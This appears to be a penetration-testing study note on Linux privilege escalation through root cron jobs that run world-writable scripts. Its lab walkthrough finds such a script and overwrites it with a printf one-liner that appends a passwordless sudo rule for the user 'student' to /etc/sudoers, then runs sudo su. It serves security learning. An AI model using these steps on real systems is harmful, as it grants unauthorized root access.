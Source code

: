 # B - Exploiting Misconfigured Cron Jobs

## **Cron Jobs**

* Linux implements task scheduling through a utility called Cron.
* Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specific schedule.
* An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches.
* The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.

## **Exploiting Misconfigured Cron Jobs**

* Cron jobs can also be run as any user on the system, this is a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the “root” user.
* This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.
* In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

## **Practical Demonstration**

After gaining initial foothold on the target system, with an unpriliveged account (whoami -> student).

```bash
#
crontab -l # Returns list of cronjobs scheduled by current user

# we saw a file [message] owned by root, so why is this fil here? 

# we use the grep utility to search all occurences of the file [message]
grep -rnw /usr -e "/home/student/message" # Use grep to search for occurencies of the path in any script/file/directory in /usr.

# we get a result: "/usr/local/share/copy.sh"
# when we check the permissions for the "copy.sh" script, we see that the file is owned by root, but other users has rwx permissions.
# you can cat the content of the script.

# we can modify the content of the script to add us to sudo group everytime it runs.
# since there is no text editor in the lab, we use the "printf" cmd to write.
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
# It allows non-elevated "student" user to do everything, and redirect the command to the cronjob associated to the file found earlier.
sudo -l # outputs list of root cmds the user can do without password.
sudo su # now we are root.




# RECAP
# 1- Identify files or scripts used by Cronjob and created by a privileged user
# 2- Check if this file/script can be modified by an unprivileged user
# 3- If it is, add a command to the file/script that add the unprivileged user to the sudoers file
# 4- The next time the Cronjob will be executed, the unprivliged user will be part of the sudoers!

```



